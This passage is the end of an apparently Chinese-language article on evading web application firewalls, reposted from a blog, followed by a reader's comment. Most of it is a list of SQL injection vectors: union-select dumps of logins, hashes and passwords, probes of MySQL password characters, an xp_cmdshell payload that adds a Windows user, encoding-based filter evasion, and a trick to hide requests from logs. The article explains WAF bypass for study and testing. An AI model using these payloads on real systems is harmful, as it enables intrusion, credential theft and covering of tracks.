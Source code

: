 SELECT*FROM(test)WHERE(name)IN(_ucs2 0x01df010e004d00cf0148);
SELECT(extractvalue(0x3C613E61646D696E3C2F613E,0x2f61)) in xml way

select user from mysql.user where user = 'user' OR mid(password,1,1)=unhex('2a')
select user from mysql.user where user = 'user' OR mid(password,1,1) regexp '[*]'
select user from mysql.user where user = 'user' OR mid(password,1,1) like '*'
select user from mysql.user where user = 'user' OR mid(password,1,1) rlike '[*]'
select user from mysql.user where user = 'user' OR ord(mid(password,1,1))=42

/?id=1+union+(select'1',concat(login,hash)from+users)
/?id=(1)union(((((((select(1),hex(hash)from(users))))))))

?id=1'; /*&amp;id=1*/ EXEC /*&amp;id=1*/ master..xp_cmdshell /*&amp;id=1*/ net user lucifer UrWaFisShiT /*&amp;id=1*/ --
id=10 a%nd 1=0/(se%lect top 1 ta%ble_name fr%om info%rmation_schema.tables)
id=10 and 1=0/(select top 1 table_name from information_schema.tables)

id=-725+UNION+SELECT+1,GROUP_CONCAT(id,0x3a,login,0x3a,password,0x3a,email,0x3a,access_level),3,4,5+FROM+Admin--
id=-725+UNION+SELECT+1,version(),3,4,5--sp_password //使用sp_password隐藏log中的请求
</pre>

## 0x05 本文小结

* * *

本文内容到这里内容差不多就算是完了回顾一下本文内容主要从三个方面展开绕过WAF的方法、Filter的实现机制和Evasion措施、测试示例和向量。本文的第二部分”绕过WAF的方法“花了较多时间需要参照已有的总结进行自己的总结并给出示例第三、四两部分更多的是粘贴已收集到的向量因此较快。本文内容和篇幅较多涉及信息量很大但是仍有许多不完善或遗漏的地方。

最后再说一下昨天晚上和园长谈及本文内容时他表示像缓冲区溢出绕过waf这些针对的是传统的waf而且关键字替换也不仅仅是处理select这么简单现在一种很重要的处理方式是编码笔者听后确实感觉受教了。需要进一步学习的还有很多很多云waf和传统waf之间千丝万缕的关系也还有待进一步去了解。前几天朋友说前几天他现在过滤都不太使用正则表达式了那样效率太低使用抽象语法树AST检测SQL注入曾经以为只有学院派会使用的现在已经发生在身边了。

文章转载于：http://www.cnblogs.com/swyft/articles/5587646.html

写的很详细，总结一下